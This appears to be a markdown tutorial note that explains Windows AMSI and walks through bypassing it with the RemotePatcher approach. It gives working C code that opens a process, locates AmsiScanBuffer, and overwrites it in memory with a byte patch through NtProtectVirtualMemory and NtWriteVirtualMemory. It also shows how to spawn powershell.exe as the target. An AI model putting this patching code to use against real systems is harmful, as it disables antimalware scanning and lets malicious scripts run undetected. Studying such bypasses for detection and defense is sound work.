 **AMSI** is an interface that allows scanning of fileless malware (Powershell, Python and other).
Under the hood, it has two methods:
- `AmsiScanBuffer`
- `AmsiScanString`

Both of them will scan a buffer and return true if it contains some malicious string. An easy test can be to execute `"AmsiScanBuffer"` in powershell:

![](../../Imgs/amsi-scan-test.png)

Every time we run a powershell window, AMSI will automatically load:

![](../../Imgs/amsi-process.png)

In theory, in order to bypass this, we should get the addresses of those 2 AMSI scanning functions, and overwrite them to return `false` everytime.
# Bypass
We will use [RemotePatcher](https://github.com/Hagrid29/RemotePatcher) as an example.
1. We will get the process HANDLE:
```
hProc = OpenProcess(
    PROCESS_VM_OPERATION | PROCESS_VM_WRITE,
    FALSE,
    (DWORD)atoi(argv[i+1])
);
```
2. We will get the AMSI address:
```
void* amsiAddr = GetProcAddress(LoadLibraryA("amsi.dll"), "AmsiScanBuffer");
```
3. Define the new `AmsiScanBuffer` definition (this is only a bypass to break the function):
```
char amsiPatch[] = { 0x31, 0xC0, 0x05, 0x4E, 0xFE, 0xFD, 0x7D, 0x05, 0x09, 0x02, 0x09, 0x02, 0xC3 };
```
4. We will use functions from NTDLL:
- `NtProtectVirtualMemory` - change the page protection
- `NtWriteVirtualMemory` - write to memory

This is done because normal Windows API functions will fail to operate on another process.
And we will use them to patch AMSI:
```
DWORD lpflOldProtect = 0;
unsigned __int64 memPage = 0x1000;
void* amsiAddr_bk = amsiAddr;

NtProtectVirtualMemory(hProc, (PVOID*)&amsiAddr_bk, (PSIZE_T)&memPage, 0x04, &lpflOldProtect);
NtWriteVirtualMemory(hProc, (LPVOID)amsiAddr, (PVOID)amsiPatch, sizeof(amsiPatch), (SIZE_T*)nullptr);
NtProtectVirtualMemory(hProc, (PVOID*)&amsiAddr_bk, (PSIZE_T)&memPage, lpflOldProtect, &lpflOldProtect);
```

If we want to create a process instead of opening it:
```
LPSTARTUPINFOA si = new STARTUPINFOA();
LPPROCESS_INFORMATION pi = new PROCESS_INFORMATION();
CreateProcessA(
    NULL,
    L"powershell.exe", // the actual process
    NULL,
    NULL,
    TRUE,
    0,
    NULL,
    NULL,
    si,
    pi
);
hProc = pi->hProcess;
```
